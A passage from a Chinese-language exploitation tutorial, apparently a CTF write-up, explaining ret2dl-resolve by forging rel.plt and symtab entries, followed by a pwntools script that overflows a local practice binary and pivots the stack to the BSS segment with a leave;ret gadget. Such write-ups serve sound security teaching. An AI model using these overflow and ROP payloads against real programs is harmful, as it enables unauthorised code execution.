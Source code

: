 [![](https://p3.ssl.qhimg.com/t019bae3d08f64bdca1.png)](https://p3.ssl.qhimg.com/t019bae3d08f64bdca1.png)

查看read的Got表，发现地址也被重定向为了alarm的地址。

```
$ x/xw 0x0804a00c
0x804a00c:    0xf7ead270
```

### <a class="reference-link" name="%E6%80%9D%E8%B7%AF%EF%BC%9A"></a>思路：

现在我们已经懂得了如何利用控制符号重定位来对函数进行解析。

理论上只需要修改dynstr段的内容就能够控制重定位，但是在程序中，dynstr段是不可写的。

所以直接修改是难以实现的。我们真正能控制的只有reloc_argc.

所以前辈们想出了一个解决方案，便是伪造rel.plt表和symtab表，并且修改reloc_argc，让重定位函数解析我们伪造的结构体，借此修改符号解析的位置。

注意：本题所有的gadget都是在pwn程序中找到的，libc因为版本未知，所以不能够确定。



## 利用脚本

#### <a class="reference-link" name="Stack%20pvoit"></a>Stack pvoit

首先为了栈完全可控，我们选择bss段，作为新的栈段。

下面是代码，利用到stack pviot技术，自定义一块内存区域为新的堆栈。

```
from pwn import *
context.log_level='debug'
p=process('./pwn')
elf=ELF('./pwn')
gdb.attach(p)

bss_addr=0x0804a040 #objdump -h pwn|grep bss
read_plt=0x08048390 #objdump -d pwn |grep plt
gadget1=0x0804852a #ROPgadget --binary pwn |grep leave # leave |ret

payload='A'*0x28+p32(bss_addr) #EBP-&gt;bss_addr
payload+=p32(read_plt)+p32(gadget1)+p32(0)+p32(bss_addr)+p32(0x36)
p.sendline(payload)
#raw_input()
#p.sendline("a"*0x20)
p.interactive()
```

成功修改了栈顶为BSS段的头

[![](https://p2.ssl.qhimg.com/t011b42712425f3066e.png)](https://p2.ssl.qhimg.com/t011b42712425f3066e.png)
